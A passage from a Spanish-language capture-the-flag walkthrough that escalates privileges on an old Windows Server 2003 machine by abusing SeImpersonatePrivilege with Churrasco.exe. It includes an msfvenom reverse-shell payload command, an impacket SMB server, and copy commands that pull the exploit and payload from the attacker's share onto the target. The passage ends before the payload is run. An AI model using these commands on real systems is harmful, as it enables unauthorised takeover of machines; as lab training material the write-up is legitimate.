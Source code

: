 Los que probe fueron:
* *MS14-070 - Ambas versiones*
* *MS11-046*
* *MS11-062*
* *MS15-051*

No sé porque razón ninguno funciono, así que en este caso ahora si vamos a aprovecharnos del privilegio **SeImpersonatePrivilege**. Para abusar de este privilegio vamos a usar **Juicy Potato**, pero esta será una variante pues la versión de **Windows** de la máquina es bastante vieja.


<h2 id="Churro">Escalando Privilegios con Churrasco</h2>

Con solo poner **Windows server 2003 juicy potato exploit** en el buscador, nos dará una página web, la abrimos y vemos la explicación.
* <a href="https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/" target="_blank">Privilege Escalation (Windows) – JuicyPotato.exe</a>

La versión de **Juicy Potato** que ofrece esta página no nos servirá, pero si nos vamos hasta abajo ahí vendrá una variante llamada **Churrasco.exe**, esa es la que vamos a usar.
* <a href="https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/" target="_blank">Privilege Escalation (Windows) – churrasco.exe</a>

Siguiendo las indicaciones de la página, una vez descargado el **Churrasco.exe** vamos a hacer lo siguiente:

* Crearemos un Payload para cargar una **Reverse Shell**:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=Tu_IP LPORT=1337 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

**OJO**: Ten cuidado y no vayas a usar el mismo puerto que usaste para acceder a la máquina porque sigue en activo.

* Abrimos un servidor con **Impacket** para subir el Payload y el **Churrasco**:
```bash
impacket-smbserver smbFolder $(pwd)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

* Descargamos los archivos en la máquina:
```batch
C:\WINDOWS\Temp\Privesc>copy \\Tu_IP\smbFolder\churrasco.exe churrasco.exe
copy \\Tu_IP\smbFolder\churrasco.exe churrasco.exe
        1 file(s) copied.
C:\WINDOWS\Temp\Privesc>copy \\Tu_IP\smbFolder\shell.exe shell.exe
copy \\Tu_IP\smbFolder\shell.exe shell.exe
        1 file(s) copied.
```
**NOTA**: Esta vez no usamos **certutil.exe** porque no funciona tampoco.
